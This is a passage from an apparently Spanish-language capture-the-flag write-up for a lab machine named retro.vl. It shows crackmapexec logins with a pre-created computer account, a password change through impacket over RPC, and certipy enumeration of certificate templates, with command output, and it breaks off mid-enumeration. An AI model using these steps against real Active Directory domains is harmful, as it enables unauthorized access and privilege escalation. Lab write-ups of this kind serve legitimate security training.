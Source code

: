 - Podemos intentar con **crackmapexec** para ver si alguna de las contraseñas son correctas.

```bash
➜  content  crackmapexec smb 10.10.65.176 -u 'BANKING$' -p 'banking'
SMB         10.10.65.176    445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.65.176    445    DC               [-] retro.vl\BANKING$:banking STATUS_LOGON_FAILURE
```

- Nos dice que **FAILURE**, pero si leemos el artículo encontramos esto.

<p align="center">
<img src="https://i.imgur.com/0x765dB.png">
</p>

- Bueno, si investigamos vemos que lo que tenemos que hacer es cambiar la contraseña.

<p align="center">
<img src="https://i.imgur.com/R7Oka3M.png">
</p>

- También no lo dicen en el artículo en la parte de **Changing the password** además nos dicen que usemos **RPC** vamos a usar una herramienta de **impacket** para cambiarnos la contraseña. (Si ven una IP diferente es por qué pause la máquina y la volví arrancar y me cambio la IP).

```bash
➜  content impacket-changepasswd 'retro.vl/BANKING$':banking@10.10.121.174 -newpass Passwordxd1234 -dc-ip 10.10.121.174 -p rpc-samr
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Changing the password of retro.vl\BANKING$
[*] Connecting to DCE/RPC as retro.vl\BANKING$
[*] Password was changed successfully.
```

- Ahora verificamos que la contraseña fue cambiada de manera exitosa.

```bash
➜  content crackmapexec smb 10.10.121.174 -u 'BANKING$' -p 'Passwordxd1234'
SMB         10.10.121.174   445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False)
SMB         10.10.121.174   445    DC               [+] retro.vl\BANKING$:Passwordxd1234
```

## Active Directory Certificate Services

- Ahora que hemos cambiado la contraseña podemos usar **certipy** <https://github.com/ly4k/Certipy> aquí un post sobre los certificados <https://posts.specterops.io/certified-pre-owned-d95910965cd2> .

- Bueno, vamos a emplear la herramienta.

```bash
➜  content certipy-ad find -u 'BANKING$'@retro.vl -p Passwordxd1234 -dc-ip 10.10.121.174 -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
```